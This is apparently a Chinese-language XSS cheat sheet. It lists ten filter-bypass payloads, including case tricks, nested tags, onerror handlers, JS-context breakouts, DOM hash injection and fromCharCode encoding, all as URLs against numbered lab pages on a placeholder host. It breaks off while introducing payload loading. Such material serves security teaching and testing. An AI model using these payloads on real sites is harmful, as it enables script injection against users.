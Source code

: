 ## xss的绕过技巧

1、大小写绕过

```http://target_sys.com/xss/xss04.php?name=%3CScript%3Ealert(1);%3C/Script>```

2、属性多余

```http://target_sys.com/xss/xss05.php?name=%3Cscript%3Cscript%3E%3Ealert(1);%3C/sc%3C/script%3Eript>```

3、转换标签

```http://target_sys.com/xss/xss06.php?name=moon<img src=a onerror=alert(1)>```

4、禁用alert

```http://target_sys.com/xss/xss07.php?name=<img src="1" onerror="confirm('xss')">```

5、js输出

```http://target_sys.com/xss/xss08.php?name=moon";alert($a)//```

6、js过滤输出

过滤单引号

```http://target_sys.com/xss/xss09.php?name=moon';alert($a);//```

7、dom输出

```http://target_sys.com/xss/xss10.php?name=moon#%3Cscript%3Ealert(1);%3C/script>```

```http://target_sys.com/xss/xss10.php?name=moon#<script>alert(/xss/);</script>```

hash 属性是一个可读可写的字符串，该字符串是 URL 的锚部分（从 # 号开始的部分）。

substring 从#开始截取后面的部分

> 只对IE有效果，其他浏览器由兼容性问题

8、urlxss

```http://target_sys.com/xss/xss11.php/" onsubmit="alert('1')```

$_SERVER['PHP_SELF']

9、过滤特殊字符

php开启gpc之后

单引号（’）、双引号（”）、反斜线（）与 NUL（NULL 字符）等字符都会被加上反斜线

```http://target_sys.com/xss/xss12.php?name=<script>alert(1);</script>```

```http://target_sys.com/xss/xss12.php?name=<script>eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,13))</script>```

10、过滤大小号

```http://target_sys.com/xss/xss13.php?name=moon' onmouseover='javascript:alert(1)```

## xss加载payload

​		当我们在测试xss漏洞的时候，一般都是用h1 alert 简单的html标签 样式是否改变 是否弹出框，来检验是否存在xss漏洞。当在利用这个xss漏洞获取信息的时候，就要加载payload，加载payload的方法多种多样，以下是常用的加载技巧。

### 标准script加载
```